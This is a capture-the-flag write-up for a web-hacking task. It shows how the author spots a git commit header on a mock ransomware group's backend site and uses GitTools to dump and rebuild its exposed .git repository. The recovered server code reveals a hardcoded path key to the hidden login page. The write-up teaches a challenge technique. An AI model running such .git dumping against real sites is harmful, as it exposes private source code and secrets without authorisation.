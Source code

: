 <!-- HEADER -->
<div align="center">

# [\[<<\]](../TaskB1/) Task B2 - Getting Deeper [\[>>\]](../Task5/)
![Category: Web Hacking, [redacted]](https://img.shields.io/badge/Category-Web_Hacking,_\[redacted\]-informational?style=flat-square)
![Points: 100](https://img.shields.io/badge/Points-100-43853D?style=flat-square)

![Task Screenshot](https://i.imgur.com/D4uPJUN.png)

</div>

<!-- DESCRIPTION -->
> It looks like the backend site you discovered has some security features to prevent you from snooping. They must have hidden the login page away somewhere hard to guess.
> 
> Analyze the backend site, and find the URL to the login page.
> 
> *Hint: this group seems a bit sloppy. They might be exposing more than they intend to.*
> 
> ---
>
> **Warning:** Forced-browsing tools, such as DirBuster, are unlikely to be very helpful for this challenge, and may get your IP address automatically blocked by AWS as a DDoS-prevention measure. Codebreaker has no control over this blocking, so we suggest not attempting to use these techniques.
> 
> ---
>
> Enter the URL for the login page
> ```
> ```

## Files
* [provided/](provided/)
	- (empty)
* [repo/](./repo) - Extracted repository of the backend site.
	- [app/](./repo/app/)
		- [server.py](./repo/app/server.py) - The main python script that controls the site.
		- (more files, snipped)
	- (more files, snipped)

<!-- BREAKDOWN & SOLUTION -->
## Breakdown & Solution

Using the domain we got from the [previous task](../TaskB1/), lets what the backend site is doing.

That's not fun.

![Backend Site](https://i.imgur.com/zjB71gg.png)

Lets check the network traffic. Hm nothing here, but I can see that we have a `x-git-commit-hash` header in the response!

![Network Traffic](https://i.imgur.com/2RACfQB.png)

Lets see if there's a `.git` directory:

![Git Directory](https://i.imgur.com/oMUofAT.png)

We didn't get an error `404` so that means its there! Check if we can get the files in the `.git` directory:

![Git Files](https://i.imgur.com/dHvOZAL.png)

Success! Lets download use a tool called [GitTools](https://github.com/internetwache/GitTools) to extract all the files in the `.git` directory. From there we can rebuild the entire repository.

Download the tool

```
$ git clone https://github.com/internetwache/GitTools.git && cd GitTools
Cloning into 'GitTools'...
... (snipped)
```

Dump the .git directory
```
$ ./Dumper/gitdumper.sh https://xsafjadfhngjqmit.ransommethis.net/.git/ git_dump
[*] Destination folder does not exist
[+] Creating git_dump/.git/
[+] Downloaded: HEAD
[-] Downloaded: objects/info/packs
[+] Downloaded: description
[+] Downloaded: config
[+] Downloaded: COMMIT_EDITMSG
[+] Downloaded: index
... (snipped)
```

From the git dump, extract the files and rebuild the repository.

```
$ ./Extractor/extractor.sh git_dump/ ../repo/
[*] Destination folder does not exist
[*] Creating...
[+] Found commit: 1ef040a115beb615d1d55f098a3dcc9dd13d0149
... (snipped)
```

And clean everything up

```
$ cd .. && rm -r GitTools
```

And we got the [entire repository](./repo)!

Lets take a look at [server.py](./repo/app/server.py), we can see here that there's a function called `expected_pathkey`
```py 
def expected_pathkey():
	return "sfukthmjthqxfjdy"
```

If we continue to look at the code, we see where that function is used:

```py
def pathkey_route(pathkey, path):
	if pathkey.endswith('/'):
		# Deal with weird normalization
		pathkey = pathkey[:-1]
		path = '/' + path

	# Super secret path that no one will ever guess!
	if pathkey != expected_pathkey():
		return render_template('unauthorized.html'), 403
	# Allow access to the login page, even if they're not logged in
	if path == 'login':
		return loginpage()
```

That means if we want to not get 403'd we need to do `sfukthmjthqxfjdy/blah`, and in the [templates/](./repo/app/templates/) folder we see all the different pages we can go to, in this case we can see [login.html](./repo/app/templates/login.html).

Lets try going to `https://xsafjadfhngjqmit.ransommethis.net/sfukthmjthqxfjdy/login`

![Login Page](https://i.imgur.com/hB62cXE.png)

Nice we got it! Lets submit `https://xsafjadfhngjqmit.ransommethis.net/sfukthmjthqxfjdy/login`.

![Task Screenshot](https://i.imgur.com/fujHhHk.png)

We got the login url!

> ```
> Well found! Now we need to log in...
> ```

<!-- TL;DR -->
## Technical TL;DR
Check the requests you make and you'll find a git-commit hash in the response. This shows that the attackers may have leaked their .git directory. Use a tool to go through the .git directory and reverse the repository to get the source code of the website. From there you can find the login page by looking at the source code of the server handler which shows that it only allows you to access pages give you give a pathkey.

---

<div align="center">

[return to top](#top)

</div>